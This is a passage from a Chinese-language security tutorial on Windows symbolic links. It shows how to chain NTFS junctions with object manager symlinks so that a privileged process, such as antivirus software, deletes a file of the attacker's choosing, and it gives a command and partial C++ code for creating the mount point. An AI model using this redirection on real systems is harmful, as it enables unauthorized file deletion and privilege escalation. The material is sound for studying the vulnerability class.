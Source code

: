 执行：

```php
CreateSymlink.exe C:\Users\root\Desktop\test01\CreateSymlink\test_dir_symlink\symlink_file.txt C:\Users\root\Desktop\test01\CreateSymlink\test_dir_01\file.txt
```

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1715656007668-04646b40-2ed3-4b18-af6c-71e4cca793bf.png)

查看文件内容：

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1715656169988-adf89bf0-0277-43a6-a09c-e295588ab1ee.png)

可以看到此时不能通过`C:\Users\root\Desktop\test01\CreateSymlink\test_dir_symlink\symlink_file.txt`路径去访问`C:\Users\root\Desktop\test01\CreateSymlink\test_dir_symlink\file.txt`的文件内容，因为构造的是对象管理器符号链接。

任意文件删除：Junctions + Object Manager symbolic link
===============================================

上面我们说了文件到文件的符号链接需要使用管理员权限下进行操作的文件系统符号链接，有趣的是当连接点与对象管理器符号链接一起使用时，能在普通用户权限下做到管理员权限下才能做到的文件系统符号链接效果，下面我们来逐步实现。

新建出下面的目录结构：

```php
C:.
│   dont_delete.txt
│
└───sym_testing
    ├───target
    │       config.txt
    │
    └───test
                config.txt
```

下面我们来实现两个目标，现在假设有一个程序，例如杀毒软件，正在以高权限删除`test\config.txt`文件，我们来尝试：

1. 删除目标改为`target\config.txt`（不同目录下同名文件）
2. 删除目标改为`dont_delete.txt`（不同目录下不同名文件）

针对第一个，我们可以将test目录转换为连接点，代码如下：

```php
int main(int argc, const char* argv[])
{

    OFSTRUCT openstruct;
    HFILE openhandle;
    // empty the test folder first
    openhandle = OpenFile("C:\\Users\\root\\Desktop\\test01\\demo\\sym_testing\\test\\config.txt", &openstruct, 0x00000200);
    // C:\\Users\\root\\Desktop\\test01\\demo\\sym_testing\\test
    if (openhandle == HFILE_ERROR) {
        std::cout << "[+] Delete file fails \n";
    }
    else {
        std::cout << "[+] Delete file OK \n";
    }
    CloseHandle(&openstruct);

    if (!ReparsePoint::CreateMountPoint(L"C:\\Users\\root\\Desktop\\test01\\demo\\sym_testing\\test", L"C:\\Users\\root\\Desktop\\test01\\demo\\sym_testing\\target", L""))
    {
        printf("[+] Mounting failed \n");
    }
    else {
        std::cout << "Mount point created successfully\n";
    }
```